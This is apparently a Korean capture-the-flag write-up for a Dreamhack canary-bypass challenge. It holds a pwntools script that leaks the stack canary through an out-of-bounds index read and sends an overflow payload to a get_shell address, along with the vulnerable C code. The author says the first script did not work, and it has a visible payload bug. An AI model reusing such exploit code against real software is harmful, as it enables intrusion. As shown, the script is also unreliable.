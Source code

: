 ```c
from pwn import *

def slog(n, m): return success(': '.join([n, hex(m)]))

p = remote('host3.dreamhack.games',15843)

context.arch = "i386"

canary = b""

for i in range(128, 132):
    p.sendlineafter(b'> ', b'P')
    p.sendlineafter(b'Element index : ', str(i).encode())
    line = p.recvline()
    byte = int(line.strip().split()[-1], 16)
    canary += p8(byte)

slog("canary", u32(canary))

get_shell = 0x565562b2
payload = b'A' * 64
payload += canary
payload = b'A' * 4
payload += p32(get_shell)

p.sendlineafter(b'> ', b'E')
p.sendlineafter(b'Name Size : ', str(len(payload)).encode())
p.sendafter(b'Name : ', payload)

p.interactive()
```

이렇게 했는데 안된다  
조금 더 자세히 분석해봐야겠다. 

**진짜 맞는 풀이**  
처음 푸는 거 처럼 다시 천천히 풀어 보겠다.  
우선 코드를 쭉 읽어보면

```python
void print_box(unsigned char *box, int idx) {
    printf("Element of index %d is : %02x\n", idx, box[idx]);
.
.
.
  case 'P':
      printf("Element index : ");
      scanf("%d", &idx);
      print_box(box, idx);
      break;
  case 'E':
      printf("Name Size : ");
      scanf("%d", &name_len);
      printf("Name : ");
      read(0, name, name_len);
      return 0;
```

